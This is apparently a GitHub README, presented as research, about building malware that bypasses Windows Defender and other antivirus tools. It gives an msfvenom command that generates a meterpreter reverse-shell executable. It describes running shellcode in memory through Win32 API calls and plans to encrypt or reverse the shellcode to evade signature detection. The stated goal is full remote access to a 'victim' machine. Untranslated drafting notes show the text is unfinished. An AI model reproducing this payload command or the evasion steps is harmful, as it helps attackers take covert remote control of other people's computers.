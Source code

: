 # Windows Security Evasion, for research porpose

Malicious software that is running a reverse shell, to get full access remote to the victim machine and this software can easily bypass windows security / windows defender and others AV's, up to now (05/05/2022).


# Anti-Virus Evasion Research

I wanted to bypass the Windows Security Virus &amp; Threat Protection with some meterpreter malware that gives me access of the victim shell, so with I could get a reverse shell.

So I tried the vanilla version of the meterpreter that you can easily forge from msfvenom:

```msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=4444 -f exe -o test_exploit.exe```

With that I uploaded this piece of software that is executable for windows and it contains our malware vanilla (PE32+ executable (GUI) x86-64, for MS Windows). 

![](https://github.com/xbeatzsec/windows-security-evasion/blob/main/not_clean_vanilla.png)

As you can see it has been detected as a malware in 19 differents anti-virus, but this is not too good, because even a vanilla version of a malware can bypass or can be undetected in some anti-virus softwares in the market.

But our target (Windows Defewnder) detected it as a &quot;Trojan:Win64/Meterpreter.D&quot;, so we can play around with our payload and try to bypass, this is my mission during this research.

So in msfvenom we could create a exe file to run in windows system, but also we can create a payload from that software to create a shellcode containing the malware that we want to run in the victim system with windows defender running.

Shellcodes are pieces of machine code designed to run local or remote system shell (hence the name). They are mainly used during exploitation of software vulnerabilities - when an attacker is able to control program&#39;s execution flow he needs some universal payload to execute desired action (usually shell access). This applies to both local exploitation (e.g. for privilege escalation) and remote exploitation (for gaining RCE on a server).

But first let&#39;s use Win32 API that is built into Windows, and that is an application programmig interface written in C by Microsoft to allow access to Windows features.

It is used for malware development so we will use it too.

And why we should use it?

- It is built into Windows so functionallity doesn&#39;t have to be re-written´
- It doesn&#39;t get flagged by AV
- It is fast and usually well documented

Modificar aqui!

We will use it first to run our shellcode, so with that we will start with VirtualAllloc to create a executable piece of memory, then we CreateThread to execute the shellcode in memory, and finally WaitForSingleObject to not crash upon receiving a command.

Asseguir á imagem

![](https://github.com/xbeatzsec/windows-security-evasion/blob/main/after_compile_1st.png)

After we compiled the file we got this result on the image above, we could bypass some of antivirus on the list but our windows defender still detecting our malware, so let&#39;s play around with our shellcode to maybe bypass it, we can encrypt our shellcode, we can reverse our byte array (shellcode). We do it now because we know that our Win32API aren&#39;t getting flagged by signature checks.
